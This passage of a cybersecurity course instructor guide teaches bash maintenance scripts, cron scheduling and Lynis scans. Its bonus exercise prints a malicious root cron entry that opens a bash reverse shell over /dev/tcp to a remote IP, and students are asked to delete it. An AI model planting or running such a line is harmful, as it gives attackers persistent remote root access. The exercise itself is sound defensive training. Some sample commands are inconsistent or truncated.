- **Note:** You must run `chmod +x backup.sh` in order for it to be executable.

Pause for any questions before proceeding.

Next, open [update.sh](Activities/06_Introduction_to_Scripts/Solved/update.sh), and explain the following:

```bash
#!/bin/bash

# Ensure apt has all available updates
apt update -y

# Upgrade all installed packages to the newest version
apt upgrade -y

# Ensures that the distribution is upgraded by installing newly released versions of software, removing any unneeded software, and installing any new software dependencies
apt full-upgrade -y

# Remove unused packages and their associated configuration files
apt autoremove --purge -y

# Extra Credit - Perform with a single line of code.
apt update -y && apt upgrade -y && apt full-upgrade -y && apt-get autoremove --purge -y
```

**Note:** Point out that these scripts will only run with sudo, as they’re basically system level.

**Bonus:** Perform with a single line of code.

- `apt update -y && apt upgrade -y && apt full-upgrade -y && apt-get autoremove --purge -y`

- Explain that we combined all of the commands from our `cleanup.sh` script into a single line instead of using several separate lines of code. We then separated each command with the `&&` option (the `AND` operator). Inform students that when using the AND operator, each command will run in succession only if the previous command is completed successfully.

**Note:** You must run `chmod +x update.sh` against your `update.sh` for it to be executable.

Special consideration should be paid to the `-y` flag in particular. This is something that you will use regularly in the field. The system periodically pauses during software updates, asking for user input in the form of `yes` or `no`. The `-y` simply automatically responds `yes` to these prompts. We can use the `-y` flag to get around this problem.

Pause for any questions before proceeding.

Open [cleanup.sh](./Activities/06_Introduction_to_Scripts/Solved/cleanup.sh), and explain the following:

```bash
#!/bin/bash

# Clean up temp directories. Be careful with the rm -rf command, as it forcibly removes all files and subdirectories within a given directory.
rm -rf /tmp/*
rm -rf /var/tmp/*

# Clear apt cache to free up disk space.
apt clean -y

# Clear thumbnail cache for sysadmin, instructor, and student
rm -rf /home/sysadmin/.cache/thumbnails
rm -rf /home/instructor/.cache/thumbnails
rm -rf /home/student/.cache/thumbnails
rm -rf /root/.cache/thumbnails
```

Emphasize that the four commands at the end of the script use absolute paths to the users' `thumbnails` directories, instead of referring to `~/.cache/thumbnails`.

  - This is because `~` means _the home directory of the current user._ However, recall that `cron` is the user who will ultimately be running this script. Therefore, `~/.cache/thumbnails` would _not_ refer to the appropriate directory within the script.

  - In addition, point out that the path to the `root` user's home folder is different to that of the other users: `/root/.cache/thumbnails`.

**Note:** You must run `chmod +x cleanup.sh` in order for it to be executable.

Pause for any questions before proceeding.

Next, explain that we want to test our scripts' functionalities, ensuring they have the correct syntax. We will do this by giving the scripts a test run.

Run the following commands:

- `sudo ./backup.sh`

  - **Note**: When testing `backup.sh`, stop the script with `Ctrl + C`. Otherwise, it will take a long time to create a full backup of `/home`. We just want to see that it actually runs.

- `sudo ./cleanup.sh`

  - Wait for script to complete with no errors. If there are errors, use `crontab -e` to edit and make corrections as needed.

- `sudo ./update.sh`

  - Wait for script to complete with no errors. If there are errors, use `crontab -e` to edit and make corrections as needed.

Let students know that if they encounter any errors, they will need to edit and re-run the script.

- **Note:** Pay special attention to error messages. They may seem cryptic, but can help direct you to the problem.

Summarize the main points of the exercise as follows:

- Scripts are just files that contain a series of commands, like those you'd write on the command line.

- Scripting helps save time by running multiple processes under a single executable file such as a script.

- Automating scripts is not only a time-saver but also provides a way to continuously maintain system integrity by generating logs, performing backups, updating software, and more, based on a schedule.

Emphasize that none of these shell scripts have the capability to perform error notification therefore the system requires continuous monitoring by a human.

Let students know that error handling using scripts will be discussed in a later lesson.

In the next activity, we'll schedule our newly tested scripts with `cron` to ensure the server remains protected, even in the absence of manual intervention.

Take a moment to address remaining questions before proceeding.

### 08. Break (0:15)

### 09. Instructor Do: Scheduling Backups, Cleanups, and Security Checks (0:15)

:warning: **Heads Up** Be prepared to possibly spend an extra few minutes explaining Lynis Scan results.

Welcome students back from the break, and let them know that we'll begin by scheduling jobs for the scripts that we wrote in the previous exercise, using `cron` for regular execution.

Remind students that user crontabs are useful for scheduling personal jobs, but not for system-level maintenance tasks.

- Crontabs belong to individual users and are designed to be run with the same permissions as the user.

- Therefore, they are typically unable to modify the system as a whole as they don't have root privileges.

Explain that students will use a different tool in this task: **system-wide `cron` directories**.

Explain that it’s important to understand the differences between system-wide cron directories and user crontabs:


-	System-wide cron directories are cron jobs that run with root privileges.


-	User crontabs are cron jobs under the privilege level of the user.

Explain where the system-wide `cron` directories are located:

- `/etc/cron.d`

- `/etc/cron.daily`

- `/etc/cron.weekly`

- `/etc/cron.monthly`

Each directory contains several scripts, which are run at dedicated time intervals.

- For example, any script placed in `/etc/cron.weekly` will run once per week.

Point out that the `/etc/cron.d` directory is used to store scripts that administrators run at custom times.
- Never edit `cron.d` directly. This has the potential to break `cron`.

Point out that this makes scheduling daily, weekly, and monthly jobs as easy as writing a script and putting it in the corresponding directory.

#### Single Line Scripts

Explain that administrators often write scripts containing a single line of code and put them in these directories. Even though single commands can easily be run through the crontab, placing them in scripts and managing them through the system-wide `cron` directories makes them much easier to manage.

Launch a terminal in your Ubuntu VM. Navigate to `/etc/` and display the contents of the `daily` directory:

- `cd /etc`

- `ls cron.daily`

  ```bash
  00logwatch  apport      bsdmainutils      logrotate  passwd              ubuntu-advantage-tools
  0anacron    apt-compat  cracklib-runtime  man-db     popularity-contest  update-notifier-common
  apache2     aptitude    dpkg              mlocate    samba
  ```

Let students know that they don't need to be familiar with every script in this directory, but the following are noteworthy:

- `0anacron` is used by a tool called `anacron` to run jobs that are overdue. `anacron` is out of the scope of this lesson, as it does not always integrate well with `cron`, but it is a common tool.

- `apt-compat` and `dpkg` keep the machine's list of packages up-to-date. This ensures the machine always installs the most recent version of software and knows when it's time to run upgrades.

- `update-notifier-common` lets you know when a system update is available.

- `man-db` ensures that man pages are up-to-date.

- `logrotate` helps make long log files easy for administrators to manage and review. Students will learn about the `logrotate` tool in detail in the upcoming logging lesson.

Next, list the contents of the `cron.weekly` and `cron.monthly` directories:

- `ls cron.weekly`

  ```bash
  0anacron man-db update-notifier-common
  ```

- `ls cron.monthly`

  ```bash
  0anacron
  ```

Point out that there are fewer jobs in these directories.

- The `man-db` and `update-notifier-common` scripts are the same as the ones in `cron.daily`.

- They're included in `cron.weekly` for redundancy, to ensure they run.

Explain that, unlike user crontabs, `cron` executes scripts in the system-wide `cron` directories as `root`.

- This means it has full rights to perform any maintenance and administrative task, such as installing and upgrading software packages.

- The fact that `cron` runs jobs as `root` makes it a common target for attackers to achieve privilege escalation.

Finally, explain that while there exists a system-wide crontab file, it's rarely modified directly.

- By default, the system-wide crontab file contains instructions to read and execute commands contained within the system-wide `cron` directories.

- It's best to not modify this file unless it is absolutely necessary.

Display the system crontab by running the command and displaying the following output:

- `less /etc/crontab`

  ```bash
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.

  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
  ```

Explain that the lines at the bottom of this file are responsible for running scripts at the desired intervals with `root` privileges, i.e., daily, weekly, monthly.

Let students know that the next exercise will give them an opportunity to use the system-wide `cron` directories to schedule the scripts they wrote in the previous exercise. In addition, they'll write new scripts to perform regular security scans with `lynis`, which will be demonstrated next.

#### Lynis Scanner

Explain that **Lynis** is a security scanner used to scan a machine for vulnerabilities. It generates and saves a report of its findings for administrators to review.

Let students know that Lynis offers numerous scan types. Today, we'll experiment with a few different ones. You'll review the output in more detail in the upcoming logging lesson.

Launch a terminal in your VM and run: 

- `sudo lynis show help`.

  ```bash
  Lynis 2.6.2 - Help
  ==========================

  Commands:
  audit
  configure
  show
  update
  upload-only

  Use 'lynis show help <command>' to see details
  ```

Point out that one of the available commands is `audit`.

- This command can be used to audit the entire system.

- Students will use man pages to learn how to schedule weekly full-system audits in the next exercise.

Explain that, in addition to a full system audits, Lynis has the capability to can scan specific parts on the system. This takes less time than a full system scan and can be performed on a more frequent basis because it uses fewer resources.

Show students the specific scans Lynis offers by running: 

- `sudo lynis show groups`.

  ```bash
  accounting
  authentication
  banners
  boot_services
  containers
  crypto
  ```

Explain that you can run specific scans with the command `sudo lynis audit --test-from-group <test group>`. Students will use this flag to schedule daily scans in the upcoming exercise.

Take a moment to address remaining questions before proceeding.

### 10. Student Do: Scheduling Backups and Cleanups (0:25)

Explain the following to students:

- In this exercise, you will continue your work as a junior administrator at Rezifp Pharma, Inc.

- Now that you've developed scripts to keep the system clean, up-to-date, and properly backed up, the senior security manager has requested that you begin using system-wide `cron` directories to schedule your scripts. Additionally, you have been asked to schedule regular security scans with Lynis.

- Remind students that, in addition to executing jobs defined in crontabs, `cron` will automatically run scripts stored in the the following system-wide cron directories, `/etc/cron.daily`, `/etc/cron.weekly`, etc.
  - While crontabs are useful for user-specific tasks, it is best practice to run system-level tasks using scripts in system-wide cron directories instead.

Send students the following files:

- [Activity File: Scheduling Backups and Cleanups](./Activities/10_Scheduling_Backups_and_Cleanups/Unsolved/README.md)


### 11. Instructor Review: Scheduling Backups and Cleanups (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

Remind students that the goal of this activity was to add previously written shell scripts to system-wide cron jobs, allowing the scripts to become automated with root privileges. 

The next part of the activity involved setting up `lynis` security scans to perform on a regular basis .

Completing this activity required the following tasks:

- Move the `backup.sh`, `cleanup.sh`, and `update.sh` scripts to their corresponding system-wide `cron` directories.

- Create `lynis` scripts to perform security scans.

Send students the following solution file:

- [Solution Guide: Scheduling Backups and Cleanups](./Activities/10_Scheduling_Backups_and_Cleanups/Solved/README.md)

#### Walkthrough

Explain that the first task simply requires copying the custom scripts into the appropriate system-wide `cron` directories located in the `/etc` directory.

Navigate to your scripts folder and copy them to the corresponding `/etc`:

- `cd ~/Security_scripts`  

- `sudo cp backup.sh /etc/cron.weekly`

- `sudo cp cleanup.sh /etc/cron.daily`

- `sudo cp update.sh /etc/cron.weekly`

Explain that using system-wide cron folders is more secure than using the root crontab for the following reasons:


  - Since `lynis` must run with root privileges, adding it to the `root` crontab opens up a broader attack surface that otherwise would not be there. Instead, we should add it to a system-wide `cron` directory such as `cron.weekly`, since it's more difficult for an attacker to exploit system-wide `cron` directories. It's not impossible, but much more difficult.

  - Security scans are a system-level task, _not_ user-level one, so it's best practice to keep them in the system-level cron directories rather than user-level crontabs.

  - It's harder to test, debug, and force execution of jobs stored in user crontabs, which will become clear soon.

**Creating the lynis system scan weekly cron**

Now, we will create scripts that we will use to run a full-system scan with `lynis` every week. We'll also want to save the results to `/tmp/lynis.system_scan.log`. Run:

- `cd ~` to go to your home folder

- `nano lynis.system.sh`

Explain that the only two lines in this script are the **shebang** line and the `lynis` command.

- Add the following to your script and ask if the students had something similar:

  ```bash
  #!/bin/bash
  lynis audit system >> /tmp/lynis.system_scan.log
  ```

Save the script and explain that the `lynis` command runs a system scan and saves the results to `/tmp/lynis.system_scan.log`. This command is not prefixed by `sudo` because it runs under `root` privileges by default when run as a cron job.

- Now let's make the script executable as with root privileges as follows:

  - Run `chmod +x lynis.system.sh`

Demonstrate what a _manual_ `lynis` system scan looks like by typing the command in the terminal with `sudo`:

  - `sudo lynis audit system`

**Instructor Note** two different users (`sysadmin` & `instructor`) cannot output to the same `/tmp/lynis.system_scan.log` file. If it has been created and thus owned by another user on the system, you'll have to delete it first to run the results as the other user.

**Creating the lynis test groups scan daily cron**


- Use `sudo lynis audit system` to run daily scans with a script and then save the results in `/tmp/lynis.partial_scan.log`, first make sure you're in your home folder and then run:

  - `nano lynis.partial.sh`

Explain that the only two lines in this script are the **shebang** line and the `lynis` command.

- Add the following to your script and ask if the students had something similar:

  ```bash
  #!/bin/bash
  sudo lynis audit system >> /tmp/lynis.partial_scan.log
  ```

Save the script and explain that the `lynis` command runs a system scan and saves the results to `/tmp/lynis.partial_scan.log`. This command is not prefixed by `sudo` because it runs under `root` privileges by default when run as a cron job.

- Now let's make the script executable as with root privileges as follows:

  - Run `chmod +x lynis.partial.sh`

Show the results with:

  - `cat /tmp/lynis.partial_scan.log` to display the output of the scan.

**Adding the lynis scripts to crontab**

- To add both `lynis` scripts to the `root` crontab:

  - Run: `sudo crontab -e`

Explain that this will open the `root` crontab. Students should then scroll to the bottom of the crontab file and add both `lynis` scripts on separate lines to schedule both tasks to run as cron jobs.

- The following lines would be added to `sudo crontab -e`:

  ```bash
  @weekly lynis audit system >> /tmp/lynis.system_scan.log
  @daily lynis audit --tests-from-group malware,authentication,networking,storage,filesystems >> $
  ```

Summarize to students the key takeaways of this exercise:

- Adding scripts to system-wide `cron` directories, as opposed to crontabs, is good practice for performing actions that affect the overall system. However, keep in mind that the risk of privilege escalation still exists due to the attractiveness of `root` privileges to an attacker.

- Files in `/etc/cron.daily`, `/etc/cron.weekly`, etc., run automatically at the specified intervals.

If students want the `lynis` scripts set up in these `/etc/cron.<time>` directories, they would run these commands to copy the `system` scan to `weekly` and the `partial` scan to `daily`:

- `sudo cp lynis.system.sh /etc/cron.weekly`

- `sudo cp lynis.partial.sh /etc/cron.daily`

### 12. Student Do: Reviewing Cron (Optional Assignment)

Time permitting, send students the following activity. Explain that they can also complete this as an optional activity outside of class time.

- [Activity File: Reviewing `cron`](./Activities/13_Reviewing_Crons/Unsolved/README.md)


### 13. Instructor Review: Reviewing `cron` (0:10)

:bar_chart: Run a comprehension check poll before reviewing the activity. 

Remind students that the goal of this activity was to help them review what they have learned so far about `cron`, `tar`, and a little about `scripts`.

Send students the following Solution Guide:

- [Solution Guide: Reviewing `cron`](./Activities/13_Reviewing_Crons/Solved/README.md)

Cover the following answers to the assessment questions.

#### Cron

- When will the following `cron` schedules run?

  `*/10 * * * *` 

    **Solution**: At every 10th minute.

- What event is the following `cron` a minute away from?

  `59 23 31 12 *`

    **Solution**: New Years!

What do the following hypothetical `cron` likely do?

- `0 18 * * 1-5 /home/Bob/Sales/sum_of_sales.sh`

    **Solution**: Run a script that adds up all the sales for the work day.

- `@weekly /home/sysadmin/Scripts/auto-update.sh`

    **Solution**: A weekly automated system update.

#### Scripts

- What is a _shebang_?

    **Solution**: Is the commented file declaration at the top of a shell script.

- Is the `.sh` extension needed for shell scripts?

    **Solution**: Nope! As long as the _shebang_ is there, the file should be able to run as a script!

- What two characters should come before the filename of a script?

    **Solution**: `./`

- Jane's script has _user_ and _group_ ownership of a script with `-rw-r--r--` permissions, but she cannot get it to run. What must she do to the file before it will run?

    **Solution**: Run `chmod +x` on her file!

#### Tar

- How does the `-x` option modify the `tar` command?

    **Solution**: This option will let `tar` extract an archive!

- If a directory has `ten` files and the following command is used in it, how many files are being compressed?

  -  `tar cvvWf backups/archive.tar .`

    **Solution**: Zero, because tar doesn’t compress!! But all files should be archived as they're all in ., the current directory!

- What option prints the full file specification of files as you interact with them?

    **Solution**: `-vv`

- Why is the `-f` option used in almost every `tar` operation?

    **Solution**: The `-f` option lets you designate a `tar` file to either _create_ or _extract_ or _list_ from.

#### Bonus

Run the following command to edit the `root` user's crontab then scroll to the bottom and delete the malicious cron job.

- Run: `sudo crontab -e` to open the `root` `crontab`.

Explain that the following malicious cron job establishes a **reverse shell**, that would give a remote attacker access to their machine. Students do not need to know what **reverse shells** are for now, but will cover them more in depth in future lessons.

- The cron you wanted to remove was:

  `*/2 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.188.164/888 0>&1`


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
